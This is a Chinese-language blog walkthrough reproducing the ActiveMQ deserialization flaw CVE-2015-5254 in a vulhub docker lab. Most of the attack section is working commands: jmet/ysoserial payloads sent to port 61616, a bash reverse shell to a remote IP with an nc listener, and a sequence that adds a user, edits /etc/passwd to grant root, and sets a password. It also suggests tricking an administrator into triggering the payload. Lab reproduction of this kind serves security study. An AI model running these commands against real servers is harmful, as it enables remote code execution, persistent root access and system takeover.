





# ActiveMQ 反序列化漏洞（CVE-2015-5254）复现 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/9970516.html`](https://www.cnblogs.com/backlion/p/9970516.html)

## 0x00 漏洞前言

        Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持 Java 消息服务，集群，Spring Framework 等。Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的 Java 消息服务（JMS）ObjectMessage 对象利用该漏洞执行任意代码。

## 0x01  漏洞环境

1.在 ubuntu16.04 下安装 docker/docker-compose:

```
# 安装 pip
curl -s https://bootstrap.pypa.io/get-pip.py | python3
# 安装最新版 docker
curl -s https://get.docker.com/ | sh
# 启动 docker 服务
service docker start
# 安装 compose
pip install docker-compose 
# 下载项目
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
unzip vulhub-master.zip
cd vulhub-master
# 进入某一个漏洞/环境的目录
 cd   activemq/CVE-2015-5254/ # 自动化编译环境
docker-compose build
```



2.运行漏洞环境：

```
docker-compose up -d
```

环境运行后，将监听 61616 和 8161 两个端口其中 61616 是工作端口，消息在这个端口进行传递; 8161 是网络管理页面端口访问 http://your-ip:8161 即可看到网络管理页面，不过这个漏洞理论上是不需要网络的。

使用浏览器直接访问 activemq，查看是否部署完毕

[`45.32.101.90:8161/admin/`](http://45.32.101.90:8161/admin/network.jsp)（默认的用户名/密码为 admin/admin）


## 0x02 漏洞复现

1.漏洞利用过程如下：

a.构造（可以使用 ysoserial）可执行命令的序列化对象

b.作为一个消息，发送给目标 61616 端口

c.访问的 Web 管理页面，读取消息，触发漏洞

2.使用 jmet 进行漏洞利用:

首先下载 jmet 的 jar 文件，并在同目录下创建一个 external 文件夹（否则可能会爆文件夹不存在的错误）。jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME。

```
cd /opt

wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
 mkdir external
```

3.执行命令

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/sucess" -Yp ROME   45.32.101.90   61616
```


4.此时会给目标的 ActiveMQ 添加一个名为事件的队列，可以我们通过 http://45.32.101.90:8161/admin/browse.jsp?JMSDestination=event 看到这个队列中所有消息：



5.点击查看这条消息即可触发命令执行



6.此时进入容器

```
docker exec -it  cc0e9385f975  /bin/bash
```


7.可看到/ tmp /已成功创建，说明漏洞利用成功：


8.反弹 shell:

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -i >& /dev/tcp/45.32.101.90/12340>&1" -Yp ROME45.32.101.90   61616
```



远程主机监听 1234 端口：

```
nc  -lvvp 1234
```

即可看到反弹是 shell:


值得注意的是，通过网络管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。

9.添加用户

执行 jmet 的命令添加 test 用户并将其添加到 root 组,返回 http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event 页面，点击一下消息，触发它：

```
 java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "useradd -g root -s /bin/bash -u 10010 test" -Yp ROME  45.32.101.90  61616
```

让我们再将 passwd 中的 test 的 uid 修改为 0，使它拥有 root 权限,返回 http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event 页面，点击一下消息，触发它。

```
 java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "sed -i "s/test:x:10010/test:x:0/g" /etc/passwd" -Yp ROME   45.32.101.90  61616
```

让我们再为 test 用户设置一个密码,返回 http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event 页面，点击一下消息，触发它。

```
 java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "echo "test:sd123456" | chpasswd" -Yp ROME   45.32.101.90   61616
```

到此为止，一个权限为 root，密码为 123456 的用户即创建完毕。我们可以使用 ssh 直接远程登陆进入操作系统，并且还是最高权限。



## 0x03 参考链接

[`www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf`](https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf)